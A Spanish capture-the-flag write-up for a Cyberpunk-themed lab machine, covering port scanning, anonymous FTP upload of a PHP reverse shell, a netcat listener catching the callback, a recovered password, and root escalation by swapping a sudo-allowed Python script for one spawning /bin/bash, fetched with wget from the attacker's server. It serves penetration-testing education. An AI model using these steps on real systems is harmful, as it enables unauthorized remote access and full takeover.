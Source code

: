 # Fase 1- Tanteo
![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/c4288e3e-916f-4030-9ca3-eedfb72b31b7)
En esta fase inicial, realizamos un escaneo de puertos para identificar los servicios disponibles en la máquina objetivo. Utilizamos la herramienta Nmap con una serie de opciones para obtener información detallada y realizar un análisis exhaustivo de los puertos abiertos.
### Comando Nmap utilizado:

`sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`

### Detalles del Comando:

- `sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`
- `-p-`: Escaneo de todos los puertos.
- `--open`: Muestra solo puertos abiertos.
- `-sS`: Escaneo SYN para determinar el estado de los puertos.
- `-sC`: Activa detección de versiones y vulnerabilidades.
- `-sV`: Escaneo de versiones de servicios.
- `--min-rate 5000`: Velocidad mínima de escaneo.
- `-vvv`: Verbosidad muy alta para información detallada.
- `-n`: Desactiva la resolución de DNS.
- `-Pn`: Ignora la detección de hosts en línea.
- `192.168.52.139`: IP de la máquina objetivo.
- `-oN Escaneo`: Guarda resultados en archivo "Escaneo".

### Resultados:

#### Puertos Abiertos:

1. **21/tcp(FTP):** --
2.  **22/tcp(SSH):** OpenSSH 9.2p1 
3. **80/tcp(HTTP):** Apache httpd 2.4.59

### Puerto 80
Al identificar que el puerto 80 estaba abierto durante el escaneo, se procedió a ingresar la dirección IP en el navegador. Se encontró una pagina llamada `Arasaka` con una imagen.
![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/e6a10e09-cf0d-4cfa-9363-fbd5b2f47517)

# Fase 2- Exploración

#### feroxbuster
```python
200      GET       27l       78w      713c http://192.168.1.8/
200      GET       27l       78w      713c http://192.168.1.8/index.html
200      GET       20l      101w      923c http://192.168.1.8/secret.txt
```
Encontró un `secret.txt` veamos que tiene.
Dicho archivo contiene el siguiente mensaje:
```python
*********************************************
*                                           *
*        Hola Netrunner,                   *
*                                           *
*   Has sido contratado por el mejor fixer  *
*   de la ciudad para llevar a cabo una     *
*   misiÃ³n crucial.                         *
*                                           *
*   Tenemos informaciÃ³n de que Arasaka,     *
*   la mega-corporaciÃ³n mÃ¡s poderosa de     *
*   Night City, estÃ¡ migrando sus sistemas  *
*   y actualmente parece ser vulnerable.    *
*   Necesitamos que te infiltres en sus    *
*   sistemas y desactives el Relic para     *
*   salvar la vida de V.                    *
*                                           *
*   Te espero en Apache.                    *
*                                           *
*                         - Alt             *
*********************************************
```
Interesante...

#### FTP
![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/1a4fa82d-273b-4ead-9c9d-d10e77cc4ff5)

Si vemos bien, ftp tiene los mismos archivos que contiene la pagina web, y nos podemos conectar como el user `Anonymous`.

# Fase 3- Explotación

#### FTP
![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/afb2e3ba-360c-4efe-ad0a-8dee9549520c)

Nos conectamos como usuario `Anonymous` al puerto ftp de la maquina.

```r
ftp> put reverse.php
local: reverse.php remote: reverse.php
229 Entering Extended Passive Mode (|||61522|)
150 Abriendo conexión de datos en modo BINARY para reverse.php
100% |*********************************************************|  2069       26.66 MiB/s    00:00 ETA
226 Transferencia completada
2069 bytes sent in 00:00 (942.40 KiB/s)
ftp> ls
229 Entering Extended Passive Mode (|||13161|)
150 Abriendo conexión de datos en modo ASCII para file list
drwxr-xr-x   2 0        0            4096 May  1 08:49 images
-rw-r--r--   1 0        0             713 May  1 14:55 index.html
-rw-r--r--   1 ftp      nogroup      2069 Jun 16 13:39 reverse.php
-rw-r--r--   1 0        0             923 May  1 08:51 secret.txt
```
Nos pasamos una reverse shell en php. Link: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php


```python
> nc -nvlp 443
http://192.168.1.8/reverse.php
>sudo nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.1.2] from (UNKNOWN) [192.168.1.8] 43386
Linux Cyberpunk 6.1.0-20-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.85-1 (2024-04-11) x86_64 GNU/Linux
 15:42:33 up 37 min,  0 user,  load average: 0.00, 0.37, 0.73
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```
Lo primero que tenemos que hacer es ponernos en modo escucha por el puerto que pusimos en el archivo. Despues lo llamamos en la web y listo, estamos dentro.

# Fase 4- Privilegios

#### sudo -l
![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/894b37f7-cbeb-41d0-b73c-0f79b7fd6b8a)
Buscando en la máquina encuentro un usuario llamado `araska` y en el directorio `/opt` encuentro un archivo llamado `araska.txt` que esta encriptado en lo que parece ser brianfuck.

#### Araska
![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/5c05d64e-23ae-4bb1-92e1-5eaa5e49ed88)
Encontramos una especie de contraseña.
```python
www-data@Cyberpunk:/home$ su arasaka
Password: cyberpunk2077
arasaka@Cyberpunk:/home$ 
```
Somos el usuario Araska.

![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/4c8f3a01-88ce-4096-8c31-c7762788d02d)

Como el usuario `araska` podemos ejecutar el binario `python3.11` en el archivo `/home/araska/randombase64.py`. Para escalar privilegios lo hice de esta forma:
```python
arasaka@Cyberpunk:$ mv randombase64.py r.py
Atacante:$ nano randombase64.py
Nano: 
"""
import base64
import os

message = input("Enter your string: ")
message_bytes = message.encode("ascii")
base64_bytes = base64.b64encode(message_bytes)
base64_message = base64_bytes.decode("ascii")

print(base64_message)

os.system('/bin/bash')
"""
Atacante:$ chmod +x randombase64.py
Atacante:$ python3 -m http.server 80
arasaka@Cyberpunk:$ wget 192.168.1.2/randombase64.py
Atacante:$ nc -nvlp 443
arasaka@Cyberpunk:$ sudo /usr/bin/python3.11 /home/arasaka/randombase64.py
listening on [any] 443 ...
connect to [192.168.1.2] from (UNKNOWN) [192.168.1.8] 40656
# whoami
whoami
root
# 
```
Y somos usuario root!.
